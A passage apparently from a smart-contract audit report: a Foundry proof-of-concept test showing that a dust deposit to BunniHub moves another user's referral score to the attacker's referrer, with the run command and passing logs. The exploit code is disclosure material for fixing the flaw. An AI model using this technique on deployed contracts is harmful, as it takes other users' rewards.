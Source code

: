 ```solidity
        hub.deposit(depositParams);
        vm.stopPrank();
        console.log("      bunniToken.balanceOf(userB): %s", bunniToken.balanceOf(userB));
        console.log("      bunniToken.scoreOf(referrerB): %s", bunniToken.scoreOf(referrerB));

        // userB mint dust token to userA
        console.log(">>>>> userB steal score of userA");
        uint256 token0BalanceBefore = token0.balanceOf(userB);
        uint256 token1BalanceBefore = token1.balanceOf(userB);
        vm.startPrank(userB);
        depositParams.amount0Desired = dustAmount;
        depositParams.amount1Desired = dustAmount;
        depositParams.recipient = userA;
        depositParams.refundRecipient = userB;
        depositParams.referrer = referrerB;
        hub.deposit(depositParams);
        vm.stopPrank();
        uint256 token0Cost = token0BalanceBefore - token0.balanceOf(userB);
        uint256 token1Cost = token1BalanceBefore - token1.balanceOf(userB);

        // result
        console.log(">>>>> result");
        console.log("      bunniToken.scoreOf(referrerA): %s", bunniToken.scoreOf(referrerA));
        console.log("      bunniToken.scoreOf(referrerB): %s", bunniToken.scoreOf(referrerB));
        console.log("      userB cost token0 amount: %s", token0Cost);
        console.log("      userB cost token1 amount: %s", token1Cost);
    }
```

Run the PoC.

```bash
forge test -vvv --match-test testYttriumzzPoC0004
```

The result.

```bash
$ forge test -vvv --match-test testYttriumzzPoC0004
[⠢] Compiling...
No files changed, compilation skipped

Ran 1 test for test/BunniHub.t.sol:BunniHubTest
[PASS] testYttriumzzPoC0004() (gas: 2194800)
Logs:
  >> userA mint bunniToken
        bunniToken.balanceOf(userA): 1000000000000000000
        bunniToken.scoreOf(referrerA): 1000000000000000000
  >>>>> userB mint bunniToken
        bunniToken.balanceOf(userB): 1000000000000000000
        bunniToken.scoreOf(referrerB): 1000000000000000000
  >>>>> userB steal score of userA
  >>>>> result
        bunniToken.scoreOf(referrerA): 0
        bunniToken.scoreOf(referrerB): 2000000000000000007
        userB cost token0 amount: 2
        userB cost token1 amount: 10

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.12s (3.39ms CPU time)

Ran 1 test suite in 1.18s (1.12s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
